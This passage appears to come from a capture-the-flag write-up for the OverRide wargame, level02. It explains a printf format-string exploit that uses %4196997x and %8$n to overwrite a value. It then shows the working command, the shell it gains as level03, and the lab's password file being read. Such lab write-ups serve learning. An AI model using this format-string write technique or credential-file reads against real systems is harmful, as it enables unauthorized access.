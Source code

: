 We request `printf()` to write 4196997 characters and target the 8th argument with `%$8n`.

> One can also specify explicitly which argument is taken, at each place where an argument is required, by writing "%m$" instead of '%' and "*m$" instead of '*', where the decimal integer m denotes the position in the argument list of the desired argument, indexed starting from 1.

```bash
level02@OverRide:~$ (python -c 'print("%4196997x" + "%8$n")'; python -c "print('\x28\x12\x60')"; cat) | ./level02 
# ...
                                                                                                    -7184 does not have access!
whoami
level03
cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
